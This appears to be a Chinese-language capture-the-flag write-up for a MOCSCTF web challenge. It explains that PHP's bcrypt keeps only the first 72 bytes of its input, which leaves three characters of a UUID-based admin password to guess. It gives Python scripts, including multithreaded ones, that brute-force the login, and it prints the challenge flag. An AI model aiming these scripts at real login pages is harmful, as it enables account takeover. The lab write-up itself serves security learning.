 ## flag

MOCSCTF{eeezzzz_transf0rmer_cha11eng3}

## 解題步驟

題目附件直接給了docker，並且只是一個很簡單的文件，我們看看代碼

![image-20250416153034565](img/image-20250416153034565.png)

發現使用的uuid倆動態生成隨機密碼，並且使用的PASSWORD_BCRYPT，在網上可以查到這個算法只會存儲72個字節，也就是說這類進行拼接對比hash並不安全，寫個python看看成都多少

```python
print(len("My-password-is-super-secure-that-You'd-never-guess-it-Hia-hiahiaadmin"))
# 69
```

也就是說還差三個字符，uuid我們可以進行爆破，寫個腳本

```python
import requests
import string

url="http://127.0.0.1:9999"

combinations = string.ascii_uppercase + string.ascii_lowercase + string.digits
password=[]
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


for i in password:
    r=requests.post(url,data={"username":"admin","password":f"{i}"})
    if "MOCSCTF{" in r.text:
        print(r.text)
        exit()
    else:
        print(f"{i} is not right")
```

但是發現比較慢，加個多線程

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor

url = "http://abc.baozongwi.xyz/"
combinations = string.ascii_lowercase + string.digits

password = []
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


def try_password(password_attempt):
    r = requests.post(url, data={"username": "admin", "password": password_attempt})
    if "MOCSCTF{" in r.text:
        return f"Found flag: {r.text}"
    else:
        return f"{password_attempt} is not right"


def start_threads():
    with ThreadPoolExecutor(max_workers=10) as executor:
        results = executor.map(try_password, password)

        for result in results:
            print(result)
            if "Found flag" in result:
                exit()


if __name__ == '__main__':
    start_threads()

```

大概十幾分鐘就可以解決這個挑戰，後面發現有可能是拼運氣的，所以我把php拉了下來

```php
<?php
function generate_uuid_v4() {
    $data = random_bytes(16);

    $data[6] = chr(ord($data[6]) & 0x0f | 0x40);
    $data[8] = chr(ord($data[8]) & 0x3f | 0x80);

    return vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($data), 4));
}
$password=generate_uuid_v4();
echo $password;
```

發現這就是十六進制的，所以可以再度縮短字符集

```python
import requests
from concurrent.futures import ThreadPoolExecutor

url = "http://abc.baozongwi.xyz/"
combinations = "1234567890abcdef"

password = []
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


def try_password(password_attempt):
    r = requests.post(url, data={"username": "admin", "password": password_attempt})
    if "MOCSCTF{" in r.text:
        return f"Found flag: {r.text}"
    else:
        return f"{password_attempt} is not right"


def start_threads():
    with ThreadPoolExecutor(max_workers=10) as executor:
        results = executor.map(try_password, password)

        for result in results:
            print(result)
            if "Found flag" in result:
                exit()


if __name__ == '__main__':
    start_threads()

```

這樣子就快了不少，只用了幾分鐘就解決了
